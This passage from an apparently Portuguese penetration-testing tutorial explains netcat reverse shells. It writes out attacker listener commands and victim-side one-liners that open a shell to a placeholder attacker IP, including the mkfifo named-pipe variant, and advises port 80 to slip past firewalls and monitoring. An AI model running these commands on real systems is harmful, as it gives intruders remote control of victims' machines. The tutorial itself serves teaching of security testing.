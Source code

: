 Note que a diferença principal de uma shell reversa para uma shell bind é que o servidor estará do lado do atacante, permitindo mascarar o tráfego e evitar criar um servidor na vítima. A execução de comandos se dá da mesma forma que a bind shell.

Os comandos a serem executados para a realização de uma shell reversa via netcat são os seguintes:

Atacante:
```sh
nc -nlvp 80
```

Vítima:
```sh
nc ip_do_atacante 80 -e /bin/bash
```

Lembrando que podemos mudar o interpretador para o `cmd.exe` ou qualquer outro que exista no ambiente.

Especificamos a porta 80 por uma razão bem importante: geralmente tráfego na porta 80/HTTP é liberado em diversas empresas, e logo não terá restrições de comunicação. Para um cenário simples de monitoramento de rede, é apenas uma conexão de um computador com um site, por exemplo.

### Exemplo 8 - Reverse shell (nova forma)
Versões padrão do netcat podem não conter mais a opção `-e`, que torna o trabalho do pentester um pouco mais complicado.

Contudo, mesmo sem essa opção é possível utilizar a ferramenta para estabelecer uma shell reversa com o alvo. Para isso, utilizaremos parte da linha de comando do Netcat OpenBsd, disponível no github do [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-openbsd).

Atacante:
```sh
nc -nlvp 8080
```

Vítima:
```sh
mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc attacker_ip 8080 >/tmp/f
```

- `mkfifo /tmp/f`: A vítima irá criar um arquivo *FIFO* (named pipe, uma forma de comunicação interprocessos), em `/tmp/f`, para recebimento dos comandos do atacante e envio dos outputs.
- `cat /tmp/f | /bin/sh -i 2>&1 | nc attacker_ip 8080 >/tmp/f`: Essa segunda parte irá esperar e ler os comandos recebidos no named pipe (através do `cat`), passá-los para o processamento da shell `/bin/sh` e redirecionar a saída de erro para a saída padrão com `2>&1` (para que os erros também sejam enviados ao atacante). Por fim, o trecho  `nc attacker_ip 8080 >/tmp/f` irá fazer o papel de ponte entre o atacante e a vítima, obtendo os comandos e enviando as saídas.

Exemplo de resultado da execução:

Vítima:
![10accdb40d8fe972587d28e2d98425d3.png](img/25b06b26c705447c884120c67c80d9ab.png)
